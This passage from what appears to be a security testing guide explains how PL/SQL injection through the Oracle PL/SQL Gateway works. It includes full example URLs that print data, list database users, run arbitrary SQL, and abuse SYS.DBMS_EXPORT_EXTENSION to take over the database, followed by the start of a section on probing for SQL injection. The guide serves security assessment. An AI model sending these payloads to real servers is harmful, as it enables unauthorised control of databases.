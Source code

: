 This results in the following PL/SQL being executed:

`..`
`orasso.home();--=>:);--);`
`..`

Note that everything after the double minus (`--`) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it’s this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use `HTP.PRINT` to print BAR, and add the needed bind variable as :1:

`http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

This should return a `200` with the word “BAR” in the HTML. What’s happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it’s possible to also gain access to `owa_util.cellsprint` again:

`http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1:

`http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

Note that the output won’t be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in `DBMS_EXPORT_EXTENSION`

- `http://www.example.com/pls/dad/orasso.home?);`
- `execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20`
- `BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES`
- `('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1);`
- `EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20`
- `PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';`
- `END;--','SYS',1,'VER',0);END;`

### Assessing Custom PL/SQL Web Applications

During black box security assessments, the code of the custom PL/SQL application is not available, but it still needs to be assessed for security vulnerabilities.

#### Testing for SQL Injection

Each input parameter should be tested for SQL injection flaws. These are easy to find and confirm. Finding them is as easy as embedding a single quote into the parameter and checking for error responses (which include 404 Not Found errors). Confirming the presence of SQL injection can be performed using the concatenation operator.

For example, assume there is a bookstore PL/SQL web application that allows users to search for books by a given author:

`http://www.example.com/pls/bookstore/books.search?author=DICKENS`

If this request returns books by Charles Dickens, but

`http://www.example.com/pls/bookstore/books.search?author=DICK'ENS`
